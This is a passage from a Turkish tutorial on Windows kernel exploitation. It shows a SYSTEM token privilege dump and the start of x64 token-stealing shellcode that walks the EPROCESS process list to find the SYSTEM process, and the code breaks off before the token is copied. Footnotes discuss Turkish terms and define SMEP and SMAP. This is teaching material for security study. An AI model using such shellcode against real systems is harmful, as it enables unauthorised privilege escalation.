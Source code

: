 ```
Primary Group: S-1-5-18
Privs: 
 02 0x000000002 SeCreateTokenPrivilege            Attributes - 
 03 0x000000003 SeAssignPrimaryTokenPrivilege     Attributes - 
 04 0x000000004 SeLockMemoryPrivilege             Attributes - Enabled Default 
 05 0x000000005 SeIncreaseQuotaPrivilege          Attributes - 
 07 0x000000007 SeTcbPrivilege                    Attributes - Enabled Default 
 08 0x000000008 SeSecurityPrivilege               Attributes - 
 09 0x000000009 SeTakeOwnershipPrivilege          Attributes - 
 10 0x00000000a SeLoadDriverPrivilege             Attributes - 
 11 0x00000000b SeSystemProfilePrivilege          Attributes - Enabled Default 
 12 0x00000000c SeSystemtimePrivilege             Attributes - 
 13 0x00000000d SeProfileSingleProcessPrivilege   Attributes - Enabled Default 
 14 0x00000000e SeIncreaseBasePriorityPrivilege   Attributes - Enabled Default 
 15 0x00000000f SeCreatePagefilePrivilege         Attributes - Enabled Default 
 16 0x000000010 SeCreatePermanentPrivilege        Attributes - Enabled Default 
 17 0x000000011 SeBackupPrivilege                 Attributes - 
 18 0x000000012 SeRestorePrivilege                Attributes - 
 19 0x000000013 SeShutdownPrivilege               Attributes - 
 20 0x000000014 SeDebugPrivilege                  Attributes - Enabled Default 
 21 0x000000015 SeAuditPrivilege                  Attributes - Enabled Default 
 22 0x000000016 SeSystemEnvironmentPrivilege      Attributes - 
 23 0x000000017 SeChangeNotifyPrivilege           Attributes - Enabled Default 
 25 0x000000019 SeUndockPrivilege                 Attributes - 
 28 0x00000001c SeManageVolumePrivilege           Attributes - 
 29 0x00000001d SeImpersonatePrivilege            Attributes - Enabled Default 
 30 0x00000001e SeCreateGlobalPrivilege           Attributes - Enabled Default 
 31 0x00000001f SeTrustedCredManAccessPrivilege   Attributes - 
 32 0x000000020 SeRelabelPrivilege                Attributes - 
 33 0x000000021 SeIncreaseWorkingSetPrivilege     Attributes - Enabled Default 
 34 0x000000022 SeTimeZonePrivilege               Attributes - Enabled Default 
 35 0x000000023 SeCreateSymbolicLinkPrivilege     Attributes - Enabled Default 
Authentication ID:         (0,3e7)
Impersonation Level:       Anonymous
TokenType:                 Primary
Source: *SYSTEM*           TokenFlags: 0x2000 ( Token NOT in use ) 
Token ID: 3eb              ParentToken ID: 0
Modified ID:               (0, 3ec)
RestrictedSidCount: 0      RestrictedSids: 0x0000000000000000
OriginatingLogonSession: 0

```

O halde tüm bu bildiklerimize dayanarak "*shellcode*"umuz için şöyle bir şeyler yazabiliriz:

```assembly
[BITS 64]

%define SYSTEM_PID 0x4
%define TOKEN_OFFSET 0x80
%define KTHREAD_OFFSET 0x188
%define EPROCESS_OFFSET 0x70
%define PROCESSLIST_OFFSET 0x188
%define CURRENTPROC_OFFSET 0x208

;------------------------------------------------------------------------------
    push rax                            ; rax yazmacını yigina yedekle (geri donus degeri)
    mov rdx, [gs:KTHREAD_OFFSET]        ; Çalışan işlemciğin KTHREAD veri yapısı (PsGetCurrentProcess)
    mov r11, [rdx + EPROCESS_OFFSET]    ; r11 = Şimdiki İşlemin EPROCESS yapisi
    mov r10, [r11 + PROCESSLIST_OFFSET] ; r10 = ActiveProcessLinks (LIST_ENTRY)
    mov rcx, [r10]                      ; rcx = ListEntry->Next, yani sonraki EPROCESS
sistemi_bul:
    mov rdx, [rcx - 8]                  ; rdx = İncelenen işlemin belirteci 
```

[^1]: "*Exploit*" kelimesi için Türkçe ne kullanabiliriz? Şahsen Sömürgeç kelimesini öneriyorum, başka fikri olan?
[^2]: **SMEP** (Supervisor Mode Execution Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alanda kod çalıştırmasını engelleyen güvenlik mekanizması.
[^3]: **SMAP** (Supervisor Mode Access Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alandaki veriye direkt olarak erişimi engelleyen güvenlik mekanizması.
[^4]: "*Shellcode*" kelimesi için Türkçe ne kullanabiliriz? Ağırlıklı olarak "Kabuk Kod" kelimesinin kullanıldığını sanıyorum fakat bana çok düz bir çeviri gibi geliyor.
[^5]: **Parametre**, fonksiyonun imzasında bulunan elemanlardan bahsedilirken kullanılır, **Argüman** ise bu fonksiyon çağırılırken parametrelere verilen değerlerden bahsedilirken kullanılır.